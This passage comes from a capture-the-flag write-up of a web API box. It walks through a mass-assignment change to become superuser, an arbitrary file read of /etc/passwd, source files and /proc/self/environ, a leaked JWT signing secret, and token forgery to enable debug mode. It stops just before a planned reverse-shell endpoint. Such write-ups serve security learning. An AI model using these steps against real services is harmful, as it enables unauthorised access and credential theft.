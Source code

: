 - However we can see that we are not super, let's try to put ourselves the is super user to true with the put request to edit  
![image](https://user-images.githubusercontent.com/96747355/168453243-51fbfcc3-4965-44bb-acb8-6ea7b7b96c70.png)  
- And it worked too  
![image](https://user-images.githubusercontent.com/96747355/168453254-6e063abf-8568-4eb6-a066-594ada93117a.png)
- We have to login again and generate a new token, let's replay our initial login request
![image](https://user-images.githubusercontent.com/96747355/168453275-f29e89f4-8b40-4854-873c-0240cca35c5b.png)
- Let's try to grab the flag again with this new token. It works  
![image](https://user-images.githubusercontent.com/96747355/168453321-227a6386-9a5c-47f2-9b7c-14147221db60.png)
- Let's now play with the read file and write file request we can see in the swagger to get a file the name needs to be in base64 url as mentioned in the swagger
- We are able to get /etc/passwd this way  
![image](https://user-images.githubusercontent.com/96747355/168453703-196f1041-e5a0-4938-a083-62adad75f764.png)  
- Let's try to get the main.py it should be here `/home/htb/app/main.py`
```
import asyncio\nimport os\n\nwith open('pid','w') as f:\n    f.write( str(os.getpid())  )\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app.api import deps\nfrom app import crud\n\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC Api v2.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef root():\n    \"\"\"\n    /api endpoints\n    \"\"\"\n    return {\"endpoints\":\"/v1\"}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef root():\n    \"\"\"\n    /api/v1 endpoints\n    \"\"\"\n    return {\"endpoints\":[\"/user\",\"/admin\"]}\n\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n
```
- We can not write file because it is asking for a debug key (just like the first backend box)
- This line in the main.py app could help us `app.core.config import settings`
- Let's try to see `/home/htb/app/core/config.py`  
![image](https://user-images.githubusercontent.com/96747355/168454341-3a9307ef-b9b6-40c0-a7cd-b3fabebcd9a8.png)  
- we apply changes and fetch it  
![image](https://user-images.githubusercontent.com/96747355/168454355-48636377-5d66-4967-aaa4-84226af2d8d0.png)  
- And we see in the settings that it gets it's secret from an env var `JWT_SECRET: str = os.environ['API_KEY']`  
- We need to get the `/proc/self/environ`  
![image](https://user-images.githubusercontent.com/96747355/168485600-e4fb8e31-d235-41ac-90c8-0e65f3d12e4f.png)  
- We have the private key: `API_KEY=68b329da9893e34099c7d8ad5cb9c940`
- Now we just need to modify our token on jwt.io with the private key and add the debug to true. Let's take the token and paste it in there and make the changes  
![image](https://user-images.githubusercontent.com/96747355/168486074-c4f942bb-26f5-4a0e-9dcc-eca44c83fdb8.png)  
- It works!  
![image](https://user-images.githubusercontent.com/96747355/168486380-171a8f9f-6c5e-4b1f-94d7-b7a074ee9787.png)  
- At this point we could try to overwrite a script in order to make an endpoint to send a reverse shell
- Let's fetch user.py (we can use ippsec's script from the bonus section below to fetch it) `./getfile.sh app/api/v1/endpoints/user.py > user.py`
- We can add this in the end of user.py: